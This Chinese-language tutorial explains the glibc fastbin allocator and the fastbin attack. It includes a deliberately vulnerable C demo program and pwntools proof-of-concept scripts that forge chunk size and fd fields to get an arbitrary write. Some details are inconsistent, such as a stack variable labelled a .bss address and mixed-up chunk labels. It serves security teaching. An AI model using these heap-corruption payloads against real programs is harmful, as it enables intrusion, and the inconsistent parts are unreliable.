堆溢出——fastbin攻击¶
fastbin概述¶
Fast Bin 机制是 ptmalloc 针对小内存高频分配与释放场景的一项关键优化
Fast Bin 的设计背景与目的¶
大多数程序经常会申请以及释放一些比较小的内存块。如果将一些较小的 chunk 释放之后发现存在与之相邻的空闲的 chunk 并将它们进行合并，那么当下一次再次申请相应大小的 chunk 时，就需要对 chunk 进行分割，这样就大大降低了堆的利用效率（因为我们把大部分时间花在了合并、分割以及中间检查的过程中（因此，ptmalloc 中专门设计了 fast bin，对应的变量就是 malloc state 中的 fastbinsY
-
小内存块的高频操作：在实际程序运行中，频繁申请和释放小内存块（通常指 16 到 80 字节之间）是非常常见的操作。
-
合并与分割的开销：如果在释放小 Chunk 时，系统立即执行复杂的合并操作（检查前后相邻块并合并），那么在下一次申请同样大小的 Chunk 时，系统又必须重新从合并后的大块中切割出合适的大小。这种频繁的合并与分割过程会消耗大量的 CPU 时间。
-
Fast Bin 的引入：为了规避这种不必要的性能损耗，ptmalloc 引入了 fast bin 机制。它专门用于管理这些极小的空闲 Chunk，在分配和释放时采用更简单、更快速的策略。
-
数据结构定义：在 malloc_state 结构体中，Fast Bin 对应的存储变量为 mfastbinptr fastbinsY[NFASTBINS];。
Fast Bin 的组织结构与操作策略¶
为了更加高效地利用 fast bin，glibc 采用单向链表对其中的每个 bin 进行组织，并且每个 bin 采取 LIFO（Last-In, First-Out 后进先出）策略，最后被添加进来的元素，将第一个被移除，最近释放的 chunk 会更早地被分配，所以会更加适合于局部性。也就是说，当用户需要的 chunk 的大小小于 fastbin 的最大大小时，ptmalloc 会首先判断 fastbin 中相应的 bin 中是否有对应大小的空闲块，如果有的话，就会直接从这个 bin 中获取 chunk。如果没有的话，ptmalloc 才会做接下来的一系列操作。
-
单向链表：与 small bins 和 large bins 使用双向链表不同，Fast Bin 中的每个 Bin 采用单向链表（Singly Linked List）进行组织。这简化了插入和删除操作，进一步提高了速度。
-
LIFO（后进先出）策略：
-
释放（free）一个 Chunk 时，它会被插入到对应 Fast Bin 链表的头部。
-
分配（malloc）一个 Chunk 时，直接从链表的头部取出。
-
这种策略意味着最近释放的 Chunk 会最先被再次分配。
-
局部性优势：由于程序往往具有时间局部性（刚刚释放的内存很可能马上再次被使用），LIFO 策略能让最近释放的 Chunk 优先被复用，从而更好地利用 CPU 缓存（Cache Locality），提高执行效率。
-
分配流程：
-
当用户请求分配的内存大小满足 Fast Bin 的范围时（即小于 fastbin 的最大大小），ptmalloc 会优先在 Fast Bin 中查找。
-
如果对应大小的 Fast Bin 链表不为空，则直接从链表头部取出一个 Chunk 分配给用户，分配过程结束。
-
只有在 Fast Bin 中找不到合适 Chunk 时，ptmalloc 才会去处理更复杂的逻辑（如遍历 unsorted bin、合并等）。
Fast Bin 的尺寸限制与链表数量¶
默认情况下（32位系统为例），fastbin 中默认支持最大的 chunk 的数据空间大小为 64 字节。（64位是 128 字节）在 32 位系统中，fastbin 默认支持的最大用户数据空间为 64 字节，对应的 chunk 总大小为 72 字节。通过 mallopt 可以调整上限至 80 字节数据空间。fastbin 共包含 10 个链表，管理着从最小到最大不同大小的空闲 chunk
-
用户数据空间（Payload）：最大为 64 字节。
-
Chunk 总大小：等于用户数据空间 + 头部（Header）大小。在 32 位系统中，头部通常为 8 字节（prev_size + size），因此总大小为 64 + 8 = 72 字节。
-
可调整上限：通过 mallopt 函数，可以调整 Fast Bin 的上限，最大支持 80 字节的用户数据空间。
-
链表数量：Fast Bin 内部共包含 10 个链表（对应 malloc_state 中的 fastbinsY[NFASTBINS]，NFASTBINS 通常为 10）。这 10 个链表分别管理不同大小的空闲 Chunk（例如 16字节、24字节、32字节……直至 80字节）。
全局变量与配置¶
ptmalloc 默认情况下会调用 set_max_fast(s) 将全局变量 global_max_fast (后面比较重要的全局变量，某些攻击可能涉及篡改改值，让不属于fastbin的chunk也能被放进fastbin) 设置为 DEFAULT_MXFAST，也就是设置 fast bins 中 chunk 的最大值。当 MAX_FAST_SIZE 被设置为 0 时，系统就不会支持 fastbin。
-
global_max_fast：这是一个全局变量，定义了 Fast Bin 能处理的 Chunk 的最大尺寸（注意：这里指的是 Chunk 总大小，而非 Payload 大小）。
-
默认设置：ptmalloc 初始化时会调用 set_max_fast() 将 global_max_fast 设置为默认值（32位系统通常为 64 字节，64位系统为 128 字节）。
-
安全风险：如果攻击者能够通过某种漏洞（如任意地址写）篡改 global_max_fast 的值，将其改大，那么原本不属于 Fast Bin 范围的大 Chunk 也会被放入 Fast Bin。由于 Fast Bin 不进行合并操作，这会极大地破坏堆的完整性，为后续的利用创造条件。
-
禁用 Fast Bin：如果将 MAX_FAST_SIZE 设置为 0，系统将完全不支持 Fast Bin 机制。
核心行为特征：不合并与不检查¶
需要特别注意的是，fastbin 范围的 chunk 的 inuse 始终被置为 1。因此它们不会和其它被释放的 chunk 合并。
-
inuse 位始终为 1：当一个 Chunk 被放入 Fast Bin 时，它所在内存位置的下一个 Chunk 的 PREV_INUSE 标志位（即 inuse 位）不会被清零（依然保持为 1，表示前一个 Chunk “正在使用中”）。
-
禁止合并：由于 inuse 位为 1，当相邻的 Chunk 被释放时，free() 函数会认为前一个 Chunk 正在使用，因此不会触发合并操作。这保持了 Fast Bin 链表的简洁，但也导致了内存碎片的产生。
-
安全影响：这一特性是 Fastbin Attack 的基础。攻击者可以利用这一点，伪造一个 Chunk 并释放它（即使它在逻辑上“不应该”是空闲的），将其强行插入 Fast Bin。
触发合并的条件与安全隐患¶
但是当释放的 chunk 与该 chunk 相邻的空闲 chunk 合并后的大小大于 FASTBIN_CONSOLIDATION_THRESHOLD 时，内存碎片可能比较多了，我们就需要把 fast bins 中的 chunk 都进行合并，以减少内存碎片对系统的影响。 另外 fastbin 默认使用单链表串起所有的 free chunks，就导致了 fastbin 本身安全性比较低。
-
合并触发阈值：虽然 Fast Bin 中的 Chunk 通常不合并，但为了防止内存碎片过多，ptmalloc 设定了一个阈值 FASTBIN_CONSOLIDATION_THRESHOLD（通常为 64KB）。当释放的 Chunk 与相邻空闲 Chunk 合并后的大小超过这个阈值时，free() 会触发一次特殊操作：遍历 Fast Bin 中的所有 Chunk，将它们全部取出，进行合并（Consolidation），并放入 Unsorted Bin 中。这被称为 malloc_consolidate。
-
安全性较低：Fast Bin 采用单向链表（只使用 fd 指针），且缺乏对链表完整性的严格校验。这意味着，如果攻击者能够控制 fd 指针，就可以轻易地伪造链表，导致 malloc 返回任意地址，这是 Fast Bin 安全性较低的根本原因。
fastbin攻击¶
核心在于利用了 Fast Bin 单向链表 和 缺乏完整性校验的特点
- 堆空间的管理本质上是对bin链表的维护
- 堆块释放后，原本指向它的指针并不自动销毁
- 结果：指针悬空（指向未使用的内存，但仍然可以引用该空间）
核心思想¶
利用堆溢出漏洞，篡改 Fast Bin 单向链表中空闲 Chunk 的 fd 指针，使其指向攻击者伪造的任意地址。当再次分配该大小的内存时，malloc 就会返回这个伪造的地址，从而实现“任意地址写”。
-
溢出：通过堆溢出覆盖 Fast Bin 中空闲 Chunk 的 fd 指针。
-
伪造：将 fd 指向攻击者精心构造的“伪造 Chunk”地址（通常是目标地址 - 8）。
-
分配：通过连续两次 malloc，第一次取走原 Chunk，第二次取出伪造的 Chunk，从而让 malloc 返回攻击者指定的任意地址。
-
写入：通过后续的写操作（如 read），实现任意地址写。
示例¶
攻击fastbin
buff0 = malloc ( malloc_size)
buff1 = malloc ( malloc_size)
buff2 = malloc ( malloc_size)
free ( buff0 )
free ( buff1 )
free ( buff2 )
代码逻辑
-
buff0 = malloc(size)，buff1 = malloc(size)，buff2 = malloc(size)：连续申请三个相同大小的 Chunk。
-
free(buff0)，free(buff1)，free(buff2)：依次释放它们。
内存布局

-
释放后，这三个 Chunk 会被插入到对应的 Fast Bin 链表中。
-
由于是 LIFO 策略，最后释放的 chunk2 位于链表头部（fastbin 指针指向它）。
-
链表的连接关系为：fastbin -> chunk2 -> chunk1 -> chunk0 -> NULL。
-
每个空闲 Chunk 的 fd 指针指向下一个空闲 Chunk（例如 chunk2 的 fd 指向 chunk1）。
-
注意：Fast Bin 中的 Chunk 的 PREV_INUSE 位（P位）始终为 1，因此它们不会与相邻的空闲 Chunk 合并。
利用溢出篡改 fd 指针
-
攻击前提：攻击者拥有一个可以溢出到 chunk0 数据区的漏洞（例如通过 read 或 strcpy）。
-
攻击目标：篡改当前位于 Fast Bin 链表头部的 Chunk（即 chunk1）的 fd 指针。
-
攻击步骤

- buf0 = malloc(32)：从 Fast Bin 中取出 chunk0（链表头部），buf0 现在指向 chunk0。

-
read(buf0)：漏洞触发点。向 buf0（即 chunk0）写入超长数据。由于 chunk0 的 fd 指针位于其数据区的前几个字节，溢出数据会覆盖 chunk0 的 fd 指针。
-
攻击者将 chunk0 的 fd 指针修改为 AAAA（图中 fastbin 数组中的 0x28 位置变为 AAAA）。AAAA 代表一个攻击者控制的地址（例如 0x41414141）。

- 此时，Fast Bin 的链表结构被破坏，变为：fastbin -> chunk1 -> AAAA。
触发 Fastbin Attack 实现任意地址写
- buf1 = malloc(32)：malloc 会从 Fast Bin 链表头部取出 chunk1，返回给 buf1。此时 Fast Bin 链表头部变为 AAAA。


-
buf2 = malloc(32)：关键步骤。malloc 再次从 Fast Bin 中分配。它会检查链表头部指向的地址（即 AAAA）。
-
malloc 会将 AAAA 视为一个 Chunk 的起始地址，并检查该 Chunk 的 size 字段是否合法。
- 如果 AAAA 指向的地址处存在一个伪造的、大小合适的 size 字段（例如 0x29，表示大小为 40 字节，且 PREV_INUSE 位为 1），malloc 就会认为这是一个合法的空闲 Chunk。
- 于是，malloc 会将 AAAA 从 Fast Bin 中取出，并返回给 buf2。
-
注意：malloc 返回的是 Chunk 的 Payload 地址。由于 AAAA 是 Chunk 的起始地址（包含头部），实际返回给 buf2 的地址是 AAAA + 8（32位系统中头部大小为 8 字节，Payload 从 +8 开始）。
-
最终效果：buf2 现在指向了 AAAA + 8。
-
代码执行到第 9 行：read(buf2)
-
此时，攻击者向 buf2 写入数据，实际上就是在向 AAAA + 8 这个任意地址写入数据。
-
这就实现了“任意地址写”（Arbitrary Write）。
进阶利用
如果我们将 AAAA 替换为 any_address - 8，并在 any_address - 8 处伪造一个 presize=0，size=0x29 的堆块，则将能够控制 malloc 的返回值（malloc 将返回 any_address），结合后面的 read 将实现任意地址写。
- any_address - 8：攻击者希望 malloc 最终返回 any_address（例如，__malloc_hook 的地址）。由于 malloc 返回的是 Payload 地址，而 Payload 位于 Chunk 起始地址 + 8 的位置，因此攻击者需要让 Fast Bin 的 fd 指向 any_address - 8。
-
伪造 Chunk：攻击者必须提前在 any_address - 8 这个地址处，精心布置好伪造的 Chunk 头部数据：
-
presize = 0：前一个 Chunk 大小，可以随意设置。
- size = 0x29：这是最关键的。0x29 的二进制是 0b101001。它表示 Chunk 大小为 40 字节（0x28），且最低位（PREV_INUSE）为 1。这符合 Fast Bin 对 Chunk 大小的要求，骗过 malloc 的合法性检查。
- 结果：malloc 会返回 any_address。随后的 read(buf2) 就可以向 any_address 写入任意数据。
attack demo¶
漏洞堆程序
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
int main() {
printf("=== Fastbin Attack Demo ===\n");
char *a = malloc(32);
char *b = malloc(32);
printf("a = %p\n", a);
printf("b = %p\n", b);
strcpy(a, "AAAA");
strcpy(b, "BBBB");
free(a);
free(b);
printf("[!] 已释放 a 和 b，Fastbin 链表: b -> a\n");
printf("[!] 请输入 Payload:\n");
char payload[256];
int n = read(0, payload, sizeof(payload));
memcpy(a, payload, n);
// 查看 b 的 fd 指针
unsigned int *b_fd = (unsigned int *)b;
printf("b 的 fd 指针 = 0x%08x\n", *b_fd);
// 第一次 malloc，返回 b
char *c = malloc(32);
printf("第一次 malloc 返回: %p (应该是 b)\n", c);
// 第二次 malloc，返回伪造地址
char *d = malloc(32);
printf("第二次 malloc 返回: %p (应该是伪造地址 + 8)\n", d);
return 0;
}
POC
from pwn import *
p = process('./fastbin_attack')
# 构造 Payload
payload = b'A' * 32 # 填充 a 的用户数据区
payload += b'B' * 8 # 填充 a 的填充区
payload += b'C' * 4 # b 的 prev_size
payload += p32(0x31) # b 的 size（保持合法）
payload += p32(0x61616161) # b 的 fd（伪造地址：0x61616161，即 'aaaa'）
p.send(payload)
p.interactive()

- 可以看到b的fd指针已经被劫持
- 最后一次malloc时由于0x61616161 是一个非法地址，malloc 直接触发段错误（SIGSEGV），程序崩溃exit code -11 (SIGSEGV)
动态跟进脚本
from pwn import *
# 设置 pwntools 的调试终端（推荐用 tmux 或 gnome-terminal）
context.terminal = ['tmux', 'splitw', '-h'] # 或者 ['gnome-terminal', '--', 'bash', '-c']
p=process('./fastbin_attack')
p.recvuntil(b'a = ')
a_addr = int(p.recvline().strip(), 16)
p.recvuntil(b'b = ')
b_addr = int(p.recvline().strip(), 16)
payload=b'A'*32
payload+=b'B' * 8
payload += b'C' * 4
payload += p32(0x31)
payload += p32(b_addr) #b的地址
gdb.attach(p)
p.send(payload)
p.interactive()
动态跟进


此时溢出数据已经覆盖chunk b，size是我们精心构造的大小，也劫持了fd指针指向b这等于把 b->fd 指向了 b 自己！这是一个 “自环”，会导致 malloc 在同一个地址上无限循环。

把 b->fd 设置为 b_addr（即 b 自己）。这意味着 Fastbin 链表变成了：
- 第一次 malloc：返回 b，链表头变为 b->fd = b。
- 第二次 malloc：malloc 会再次尝试返回 b。但由于 b 已经被分配了，可能会导致 malloc 陷入死循环，最终导致崩溃。
任意地址写¶
-
在 .bss 段（或任何可写地址）伪造一个 Chunk：
-
在 fake_addr + 4 处写入 0x31（合法的 size）。
-
把 b->fd 设置为 fake_addr。
-
第二次 malloc 会返回 fake_addr + 8，就能向那里写入数据。



选取可读可写的.bss段中的空白地址glibc 2.26+ 引入的 Tcache 安全检查。
当你的程序调用 malloc 时，glibc 会检查 Fastbin/Tcache 中的 Chunk 地址是否满足 16 字节对齐（即地址的低 4 位必须是 0） 在 32 位系统中，.bss 段的地址可能不是 16 字节对齐的（比如 0x574f3458，末尾是 8，不是 16 的倍数）。
当 malloc 试图从 Fastbin 中取出这个非对齐的地址时，就会报错 unaligned tcache chunk detected，然后程序崩溃。
因此需要把 bss_addr 对齐到 16 字节
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
int main() {
printf("=== Fastbin Attack Demo ===\n");
int bss_var;
printf("bss = %p\n", &bss_var);
char *a = malloc(32);
char *b = malloc(32);
printf("a = %p\n", a);
printf("b = %p\n", b);
strcpy(a, "AAAA");
strcpy(b, "BBBB");
free(a);
free(b);
printf("[!] 已释放 a 和 b，Fastbin 链表: b -> a\n");
printf("[!] 请输入 Payload:\n");
char payload[256];
int n = read(0, payload, sizeof(payload));
memcpy(a, payload, n);
// 查看 b 的 fd 指针
unsigned int *b_fd = (unsigned int *)b;
printf("b 的 fd 指针 = 0x%08x\n", *b_fd);
// 第一次 malloc，返回 b
char *c = malloc(32);
printf("第一次 malloc 返回: %p (应该是 b)\n", c);
// 第二次 malloc，返回伪造地址
char *d = malloc(32);
printf("第二次 malloc 返回: %p (应该是伪造地址 + 8)\n", d);
return 0;
}
from pwn import *
# 设置 pwntools 的调试终端（推荐用 tmux 或 gnome-terminal）
context.terminal = ['tmux', 'splitw', '-h'] # 或者 ['gnome-terminal', '--', 'bash', '-c']
p=process('./fastbin_attack')
p.recvuntil(b'bss = ')
bss_addr = int(p.recvline().strip(), 16)
p.recvuntil(b'a = ')
a_addr = int(p.recvline().strip(), 16)
p.recvuntil(b'b = ')
b_addr = int(p.recvline().strip(), 16)
fake_addr = bss_addr & ~0xf # 向下取整到 16 的倍数
payload=b'A'*32
payload+=b'B' * 8
payload += b'C' * 4
payload += p32(0x31)
payload += p32(fake_addr)
gdb.attach(p)
p.send(payload)
p.interactive()

数据覆盖成功
由于指向的bss段地址没有构造正确的size字段导致程序崩溃